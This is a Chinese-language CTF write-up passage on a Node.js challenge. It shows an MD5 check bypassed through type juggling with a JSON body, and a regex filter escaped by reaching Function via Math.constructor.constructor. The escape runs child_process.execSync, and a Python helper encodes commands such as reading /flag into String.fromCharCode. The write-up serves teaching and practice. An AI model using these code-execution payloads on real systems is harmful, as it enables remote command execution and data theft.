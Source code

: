 ```javascript
});
```

主要的就是`first.length === second.length && first !== second && md5(first + keys[0]) === md5(second + keys[0])`，然后绕过一个正则，

可以使用正则可视化：

![image-20220301191754136](Nodejs原型链污染/image-20220301191754136.png)

允许Math.xxx或者一堆字符，或者科学计数法。

### MD5

首先是MD5的绕过。使用了相加，可能就是弱类型，`app.use(bodyParser.json());`指明了允许在Content-Type是application/json时，可以以json格式解析数据，`{"e": "1+1", "first": "1", "second": [1]}`

### 正则绕过

允许Math，取Function，Function将我们获得的字符串作为函数执行

```javascript
> Math.constructor
[Function: Object]
> Math.constructor.constructor
[Function: Function]
```

可以执行

```javascript
let a=Math.constructor.constructor
console.log(a("return process.mainModule.require('child_process').execSync('dir').toString()")())
```

不允许字符出现，利用String.fromCharCode()

```python
def gen(cmd):
    s = f"return process.mainModule.require('child_process').execSync('{cmd}').toString()"
    return ','.join([str(ord(i)) for i in s])

print(gen('cat /flag'))
```
